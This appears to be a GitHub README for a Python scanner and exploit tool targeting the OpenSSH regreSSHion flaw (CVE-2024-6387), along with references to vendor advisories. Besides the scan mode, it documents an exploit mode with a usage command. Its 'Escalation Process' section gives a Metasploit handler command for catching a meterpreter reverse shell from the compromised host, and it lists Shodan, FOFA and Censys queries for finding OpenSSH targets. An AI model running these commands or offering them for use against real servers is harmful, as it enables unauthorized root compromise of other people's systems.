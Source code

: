 ##  Description
Remote Unauthenticated Code Execution Vulnerability in OpenSSH server

CVE-2024-6387.py is a lightweight, efficient tool designed to identify servers running vulnerable versions of OpenSSH, specifically targeting the recently discovered `regreSSHion` vulnerability (CVE-2024-6387). This script facilitates rapid scanning of multiple IP addresses, domain names, and CIDR network ranges to detect potential vulnerabilities and ensure your infrastructure is secure.

A signal handler race condition was found in OpenSSH's server (sshd), where a client does not authenticate within LoginGraceTime seconds (120 by default, 600 in old OpenSSH versions), then sshd's SIGALRM handler is called asynchronously. However, this signal handler calls various functions that are not async-signal-safe, for example, syslog().



##  Details
You can find the technical details [here](https://www.qualys.com/2024/07/01/cve-2024-6387/regresshion.txt).

The flaw, discovered by researchers at Qualys in `May 2024`, and assigned the identifier CVE-2024-6387, is due to a signal handler race condition in sshd that allows unauthenticated remote attackers to execute arbitrary code as root.

"If a client does not authenticate within LoginGraceTime seconds (120 by default), then sshd's SIGALRM handler is called asynchronously and calls various functions that are not async-signal-safe," 

"A remote unauthenticated attacker can take advantage of this flaw to execute arbitrary code with root privileges."

## ⚙️ Usage
## Scanning OpenSSH Server  
> Requirement: python3 latest
```bash
### Command Line Arguments
mode: Selects the operation mode. Choices are scan or exploit.
-T, --targets: IP addresses, domain names, file paths containing IP addresses, or CIDR network ranges.
-f, --outputfile: File to save results to (e.g., result.json).
-g, --gracetimecheck: Time in seconds to wait after identifying the version to check for LoginGraceTime mitigation (default: 120 seconds).
-n, --nic: Network NIC (default: 'eth0').
-o, --output: Output format for results (choices: 'csv', 'txt', 'json').
-p, --port: Port number to check or exploit (default: 22).
-s, --speed: Number of threads to increase race condition chances (default: 10).
-t, --timeout: Connection timeout in seconds (default: 1 second).
-H, --resolve-hostnames: Resolve Hostnames
```

### Examples

#### Scanning a single URL/IP

```bash
python3 CVE-2024-6387.py scan -T example.com -p 22
```

#### Running the exploit into one domain / ip

```bash
python3 CVE-2024-6387.py exploit -T example.com -p 22 -n eth0

```

# Escalation Process

### Catching payload
All you have to do is to run the command below first (change the {yourip} handler) and run the exploit afterwards with the command above 
```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/x64/meterpreter/reverse_tcp; set LHOST {yourip}; set LPORT 9999; exploit -j"
```

## Output
The tool provides color-coded output to the console for better readability:

Green: Successful connection or operation.
Red: Failed connection or error.
Yellow: Warnings or noteworthy information.
Cyan: General information or status updates.

##  Host Discovery 
- **Hunter**: `/product.name="OpenSSH"`
- **FOFA**: `app="OpenSSH"`
- **SHODAN**: `product:"OpenSSH"`
- **CENSYS**: `(openssh) and labels=remote-access`

##  References
- **Original Author**: [CVE-2024-6387 Scanner](https://github.com/xaitax/CVE-2024-6387_Check)
- **Original Author**: [CVE-2024-6387 PoC](https://github.com/zgzhang/cve-2024-6387-poc)

## Further Referencess
- http://www.openwall.com/lists/oss-security/2024/07/01/12
- https://bugzilla.redhat.com/show_bug.cgi?id=2294604
- https://www.qualys.com/2024/07/01/cve-2024-6387/regresshion.txt
- https://ubuntu.com/security/CVE-2024-6387
- https://ubuntu.com/security/notices/USN-6859-1
- https://explore.alas.aws.amazon.com/CVE-2024-6387.html
- https://archlinux.org/news/the-sshd-service-needs-to-be-restarted-after-upgrading-to-openssh-98p1/
- https://www.openssh.com/txt/release-9.8
- https://lists.mindrot.org/pipermail/openssh-unix-announce/2024-July/000158.html
- https://blog.qualys.com/vulnerabilities-threat-research/2024/07/01/regresshion-remote-unauthenticated-code-execution-vulnerability-in-openssh-server
- http://www.openwall.com/lists/oss-security/2024/07/01/13
